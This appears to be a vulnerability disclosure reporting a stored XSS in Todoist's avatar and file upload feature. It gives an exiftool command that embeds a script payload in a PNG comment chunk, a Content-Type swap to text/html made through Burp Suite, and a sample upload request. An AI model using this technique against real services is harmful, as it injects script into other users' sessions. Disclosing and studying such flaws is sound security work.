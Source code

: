 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY BRT"))</script>' pngtoxss.png

<img width="608" height="55" alt="111" src="https://github.com/user-attachments/assets/2a274e15-2572-4253-9977-a68a8ed6c9ad" />


    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt('XSS BY BRT'))</script>

<img width="667" height="321" alt="2222" src="https://github.com/user-attachments/assets/eba07ccd-eed0-424d-8a1f-91cb3dd9ed0e" />


    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

   <img width="947" height="441" alt="6" src="https://github.com/user-attachments/assets/33c135f6-b3e4-46da-9060-7cd161eb5320" />


    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.


    
